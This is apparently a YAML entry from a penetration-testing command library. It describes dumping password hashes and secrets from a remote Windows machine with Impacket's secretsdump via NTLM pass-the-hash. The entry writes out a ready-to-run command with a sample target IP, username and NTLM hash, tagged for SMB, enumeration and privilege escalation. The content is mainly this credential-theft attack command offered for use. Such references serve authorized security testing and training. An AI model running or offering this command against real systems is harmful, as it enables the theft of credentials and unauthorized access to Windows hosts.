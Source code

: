 ```yaml
---
description: Dump password hashes and secrets from a remote Windows machine using Impacket's secretsdump with NTLM Pass-the-Hash.

Command Reference:
    Target IP: 10.10.10.1
    Domain: N/A
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  impacket-secretsdump -hashes 00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396 john@10.10.10.1

items:
  - Hash

services:
  - SMB
  - NTLM

OS:
  - Windows

attack_types:
  - Enumeration
  - PrivEsc

references:
  - https://github.com/fortra/impacket
---
```

